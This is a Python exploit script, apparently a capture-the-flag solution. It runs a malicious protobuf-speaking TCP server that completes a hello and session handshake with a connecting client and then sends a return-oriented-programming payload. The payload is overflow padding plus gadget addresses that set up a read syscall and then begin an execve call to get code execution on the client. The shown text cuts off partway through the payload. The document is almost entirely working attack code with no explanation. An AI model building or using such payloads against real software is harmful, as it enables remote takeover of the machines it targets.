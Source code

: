 ```python
# server.py
import socket
import odd_pb2

def recv(client_socket):
    data = client_socket.recv(1024)
    if not data:
        return 0
    message = odd_pb2.Message()
    message.ParseFromString(data)
    print(f"Received data: {message}")
    return 1

def send(client_socket,magic,seq,opcode,cont):
    send = odd_pb2.Message()
    send.magic = magic
    send.seq = seq
    send.opcode = opcode
    send.cont = cont
    send_data = send.SerializeToString()
    client_socket.sendall(send_data)

def start_server(host, port):
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as server_socket:
        server_socket.bind((host, port))
        server_socket.listen()
        print(f"Server started, listening on {host}:{port}")
        
        while(True):
            client_socket, client_address = server_socket.accept()
            print(f"Connection from {client_address}")
            with client_socket:
                recv(client_socket)
                send(client_socket,875704370,0x13370001,0x0,b'helloOk')
                recv(client_socket)
                send(client_socket,875704370,0x13370003,0x1,b'sessionOk')
                recv(client_socket)
                syscall = 0x65b1C0
                rax = 0x54688a
                rdi = 0x4146a4
                rsi = 0x59a4dc
                rdx_rbx = 0x6615aa

                payload = b'gggggggg'*0x10a
                payload +=b'8a68540000000000' # rax = 0
                payload +=b'0000000000000000' 
                payload +=b'a446410000000000' # rdi = 3
                payload +=b'0000000000000000' 
                payload +=b'dba4590000000000' # rsi = 0x763128
                payload +=b'2831760000000000'
                payload +=b'0000000000000000'
                payload +=b'ab15660000000000' # rdx = 0x100
                payload +=b'0010000000000000'
                payload +=b'0000000000000000'
                payload +=b'c0b1650000000000' # syscall_ret

                payload +=b'8a68540000000000' # rax = 0x3b
                payload +=b'3b00000000000000' 
                payload +=b'a446410000000000' # rdi = 0x763128
                payload +=b'2831760000000000'
                payload +=b'dba4590000000000' # rsi = 0
                payload +=b'0000000000000000'
                payload +=b'0000000000000000'
```